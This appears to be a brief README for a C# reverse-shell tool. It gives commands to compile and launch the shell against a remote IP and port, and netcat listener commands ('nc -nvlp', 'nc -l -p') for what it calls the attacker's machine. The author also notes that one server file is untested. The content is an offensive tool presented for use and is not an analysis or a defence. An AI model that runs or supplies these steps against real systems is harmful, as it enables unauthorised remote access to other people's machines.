 # ReverseShell_C-
To execute the reverse shell in terminal run this command 

csc ReverseShellNetcat.cs
ReverseShellNetcat.exe <remote_ip> <remote_port>

To open a listener and get the shell simply run this command in the attackers machine
nc -nvlp <local Port>
or 
nc -l -p <local Port>

Note: I havent tested the ReverseShell_Server.cs file you can test it and try it.
